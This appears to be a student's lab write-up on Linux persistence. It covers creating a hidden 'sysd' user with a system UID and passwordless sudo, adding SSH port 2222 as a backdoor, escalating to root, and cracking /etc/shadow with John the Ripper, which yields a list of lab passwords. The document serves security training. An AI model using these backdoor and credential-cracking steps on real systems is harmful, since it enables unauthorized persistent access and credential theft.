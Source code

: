 **Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    -  sudo useradd -M sysd

2. Give your secret user a password: 
    - passwd sysd 
    cybersecurity

3. Give your secret user a system UID < 1000:
    - usermod -u 600 sysd

4. Give your secret user the same GID:
   - groupmod -g 600 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  sysd ALL=(ALL) NOPASSWD:ALL

6. Test that `sudo` access works without your password: Sudo -l
apt-get update

    ```
    #!/bin/bash
    systemctl status cron
    crontab -l
    ls -l /var/spool/cron/crontabs/
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```
    Port 22
    Port 2222
    #AddressFamily any
    #ListenAddress 0.0.0.0
    #ListenAddress ::

    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh
    ss -tulpn |grep 2222 

2. Exit the `root` account:
    - exit
    exit
    

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo -s

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo -s
    john /etc/shadow
    
    sysadmin:passw0rd
    student:Goodluck!
    mitnik:trustno1
    babbage:freedom
    lovelace:dragon
    stallman:computer
    turing:lakers


---


